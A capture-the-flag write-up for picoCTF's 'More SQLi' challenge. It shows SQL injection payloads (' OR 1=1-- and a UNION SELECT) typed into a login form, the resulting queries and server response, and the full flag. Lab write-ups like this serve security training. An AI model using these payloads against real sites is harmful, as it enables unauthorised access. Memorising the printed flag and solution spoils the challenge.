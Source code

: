 # More SQLi

Author: Mubarak Mikail
Location: https://play.picoctf.org/events/72/challenges/challenge/358
Tags: Web Exploitation, sql

## Problem 

> Can you find the flag on this website?

This challenge came with a hint that simply read "SQLiLite."

## Solution

I began by starting the instance associated with this room (Figure 1) and a website was booted up. I visited the website with a browser going through Burp Suite's proxy and its homepage was returned to me (Figure 2).

From the title, tags, and hints associated with the challenge, I assumed that this website is vulnerable to SQL Injection. I tried to attack the form by typing ``' OR 1=1--`` in the username field and "dna deniers" in the password field (Figure 3). The following was returned to me:

```
username: ' OR 1=1--
password: dna deniers
SQL query: SELECT id FROM users WHERE password = 'dna deniers' AND username = '' OR 1=1--'
```

I tried again but with swapping the inputs: ``dna deniers`` was typed into the username form and ``' OR 1=1--`` was typed into the password form. I was greeted with some kind of directory (Figure 4). I tried to search for "picoCTF" from this web form, but nothing was returned (Figure 5). 

I figured that I wasn't really getting anywhere with basic SQL injection attacks, so I decided to use ``sqlmap`` to see if I can get anything useful from the database (I also kept a SQLite injection cheat sheet as a reference [1]). I started by logging out of the site and logging back in with the credentials "rockingmra" as a username and "dna deniers" as a password. The following was returned:

```
username: rockingmra
password: dna deniers
SQL query: SELECT id FROM users WHERE password = 'dna deniers' AND username = 'rockingmra'
```

I then saved the POST request into a file called ``sql`` and then instructed ``sqlmap`` to attack the web application with different values for ``--level`` and ``--risk``. This did not work, so I finally tried the following username and password combination:

```
username: dna deniers
password: ' UNION SELECT sqlite_version()--
```

I finally got the flag in Burp Suite (Figure 8): 

```
HTTP/1.1 302 Found
Host: [redacted]
Date: [redacted] GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.18
Expires: [redacted] GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: welcome.php
Content-type: text/html; charset=UTF-8

<pre>username: dna deniers
password: ' UNION SELECT sqlite_version()--
SQL query: SELECT id FROM users WHERE password = '' UNION SELECT sqlite_version()--' AND username = 'dna deniers'
</pre><h1>Logged in!.</h1><p>Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}</p>
<!DOCTYPE html>
<html lang="en">

[... snip ...]
```

The flag is: ``picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}``

## References

1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
